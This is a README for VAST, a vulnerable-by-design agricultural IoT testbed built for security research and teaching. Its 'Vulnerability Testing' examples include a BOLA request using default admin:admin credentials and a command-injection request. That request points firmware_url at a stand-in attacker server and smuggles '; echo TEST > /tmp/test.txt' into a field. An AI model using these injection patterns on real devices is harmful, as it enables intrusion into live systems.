 # VAST - Vulnerable Agricultural Sensor Testbed

## About VAST

VAST (Vulnerable Agricultural Sensor Testbed) is a containerized, vulnerable-by-design IoT framework specifically created for agricultural cybersecurity research, education, and testing. This platform simulates real-world agricultural IoT deployments while incorporating deliberate security vulnerabilities and sensor health anomalies.

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Docker](https://img.shields.io/badge/Docker-Ready-blue.svg)](https://www.docker.com/)

## Features

- **Multi-layered Architecture**: Simulates complete agricultural IoT stack from sensors to gateway to client
- **Deliberate Vulnerabilities**: Implements BOLA, command injection, DDoS capability, and resource exhaustion vulnerabilities
- **Sensor Health Simulation**: Models four fault types (stuck readings, drift, spikes, and dropouts)
- **Containerized Deployment**: Complete Docker-based implementation for reproducibility across environments
- **Advanced Monitoring**: Integrated Prometheus and Grafana dashboards for security and health visualization
- **Dataset Generation**: Tools for creating LLM-ready security datasets from framework interactions
- **Agricultural Context**: Realistic temperature patterns reflecting diurnal cycles and crop-specific ranges

## Paper Supplementary Materials

This repository contains detailed supplementary materials for our paper "A Vulnerable-by-Design IoT Sensor Framework for Cybersecurity in Smart Agriculture". These materials provide in-depth technical information that extends the research paper:

- [Supplementary Materials Overview](supplementary-materials/README.md)

### Vulnerability Details
- [DDoS Vulnerability](supplementary-materials/vulnerability-details/ddos-vulnerability.md)
- [Command Injection Vulnerability](supplementary-materials/vulnerability-details/command-injection-vulnerability.md)
- [Resource Exhaustion Vulnerability](supplementary-materials/vulnerability-details/resource-exhaustion-vulnerability.md)
- [BOLA Vulnerability](supplementary-materials/vulnerability-details/bola-vulnerability.md)

### Methodology Details
- [Sensor Fault Simulation](supplementary-materials/sensor-faults-simulation.md)
- [Detectability Score Calculation](supplementary-materials/detectability-calculation.md)
- [Fault Masking Methodology](supplementary-materials/fault-masking-methodology.md)

### Analysis
- [Wireshark Analysis of Attack Signatures](supplementary-materials/analysis/wireshark-analysis.md)

## Getting Started

### Prerequisites

- Docker and Docker Compose
- 4GB RAM minimum (8GB recommended)
- Basic knowledge of IoT and cybersecurity concepts

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/EmilPasca/vast.git
   cd vast
   ```

2. Build and start the containers:
   ```bash
   docker-compose -f main.docker-compose.yaml up -d
   ```

3. Start the observability stack:
   ```bash
   docker-compose -f observability/docker-compose.yaml up -d
   ```

## Usage Examples

### Basic Temperature Monitoring

Access the simulated sensor data through the gateway API:

```bash
curl http://localhost:48080/data/TEMP001
```

### Vulnerability Testing

#### BOLA Vulnerability Example


```bash
curl -u admin:admin http://localhost:48080/users/premium_user/sensors
```

#### Command Injection Example

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
     http://localhost:12381/firmware/update
```

#### Sensor Fault Simulation

```bash
./docs/FaultSimulation/simulate-faults.sh --sensor localhost --port 12381 --fault drift --duration 120
```

### Dataset Generation

Generate datasets for machine learning and LLM-based analysis:

```bash
cd dataset-tools
python generate_resource_exhaustion_dataset.py --sensor temperature-sensor-01 --baseline 180 --duration 300
```

## Architecture

VAST implements a multi-layered architecture mimicking real-world agricultural IoT deployments:

```
┌─────────────────┐     ┌──────────────┐     ┌───────────────┐     ┌──────────────┐
│   Data Server   │◄────│  Sensors     │────►│  MQTT Broker  │◄────│  IoT Gateway │
└─────────────────┘     └──────────────┘     └───────────────┘     └──────────────┘
                                                                          ▲
┌─────────────────┐     ┌──────────────┐                                  │
│   Prometheus    │◄────│  Grafana     │◄─────────────────────────────────┘
└─────────────────┘     └──────────────┘
```

## Documentation

Comprehensive documentation is available in the `docs` directory:

- [Installation Guide](docs/installation.md)
- [Architecture Overview](docs/architecture.md)
- [Vulnerability Details](docs/vulnerabilities.md)
- [Educational Use Cases](docs/education.md)
- [Dataset Generation](docs/datasets.md)
- [API References](docs/api.md)

## Demonstration Screenshots and Artifacts

Explore our demonstration artifacts in the `artifacts` directory:

- [DDoS Attack Demonstration](artifacts/ddos-demo/README.md)
- [Firmware Exploitation](artifacts/firmware-exploitation/README.md)
- [Resource Exhaustion Attack](artifacts/resource-exhaustion/README.md)
- [Sensor Fault Patterns](artifacts/fault-patterns/README.md)

For in-depth technical details and methodology explanations, see the [Supplementary Materials](supplementary-materials/README.md) section.

## Contributing

We welcome contributions to VAST! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details on how to submit pull requests, report issues, or request features.

## Disclaimer

VAST contains deliberately vulnerable components designed for educational purposes. Using these vulnerabilities outside of controlled educational or research environments may be illegal. The authors are not responsible for misuse of this framework.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Citation

If you use VAST in your research, please cite our paper:

```
Pasca, E.M.; Delinschi, D.; Erdei, R.; Baraian, I.; Matei, O. A Vulnerable-by-Design IoT Sensor Framework for Cybersecurity in Smart Agriculture. Agriculture 2025, X, X. https://doi.org/xx.xxxxx/xxxxx
```

## Acknowledgments

This work was supported by a grant of the Romanian National Authority for Scientific Research and Innovation, CCCDI - UEFISCDI, project number ERANET-CHISTERA-IV-TROCI 4/2024, within PNCDI IV.

This work is also supported by the project „Collaborative Framework for Smart Agriculture" – COSA that received funding from Romania's National Recovery and Resilience Plan PNRR-III-C9-2022-I8, under grant agreement 760070.

This research has been supported by the CLOUDUT Project, cofunded by the European Fund of Regional Development through the Competitiveness Operational Programme 2014-2020, contract no. 235/2020.